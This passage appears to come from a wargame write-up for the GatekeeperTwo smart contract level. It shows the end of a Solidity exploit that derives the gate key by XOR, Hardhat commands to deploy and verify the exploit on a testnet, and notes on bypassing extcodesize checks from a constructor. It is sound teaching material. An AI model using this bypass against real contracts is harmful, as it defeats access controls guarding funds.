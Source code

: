 ```solidity
        // uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max
        // To solve for _gateKey:
        // uint64(_gateKey) = uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ type(uint64).max
        
        bytes8 senderHash = bytes8(keccak256(abi.encodePacked(_caller)));
        return bytes8(uint64(senderHash) ^ type(uint64).max);
    }
    
    function checkSuccess() external view returns (bool) {
        address entrant = IGatekeeperTwo(gatekeeperAddress).entrant();
        return entrant == owner;
    }
}
```

### Execution Steps

1. **Deploy the GatekeeperTwo Contract**

   ```shell
   npx hardhat run scripts/level-14-gatekeeper-2/deploy-gatekeeper-two.ts --network sepolia
   ```

2. **Deploy the Exploit Contract**

   This will automatically attempt to make you the entrant in a single transaction:
   
   ```shell
   TARGET_ADDRESS=0xYourGatekeeperTwoAddress npx hardhat run scripts/level-14-gatekeeper-2/deploy-gatekeeper-two-exploit.ts --network sepolia
   ```

3. **Verify Success**

   ```shell
   EXPLOIT_ADDRESS=0xYourExploitAddress TARGET_ADDRESS=0xTargetAddress npx hardhat run scripts/level-14-gatekeeper-2/verify-exploit-success.ts --network sepolia
   ```

## Key Insights

1. **Contract Creation Context**: During a contract's constructor execution, `extcodesize(address(this))` is 0 because the code hasn't been stored to the blockchain yet.

2. **XOR Properties**: XOR is its own inverse operation. This means if A ^ B = C, then A ^ C = B.

3. **Smart Contract Execution Flow**: Understanding the execution flow and state transitions in Ethereum contracts is crucial for security analysis.

## Lessons Learned

1. **Contract Deployment Mechanics**: Be careful about assumptions regarding a contract's state during construction vs. after deployment.
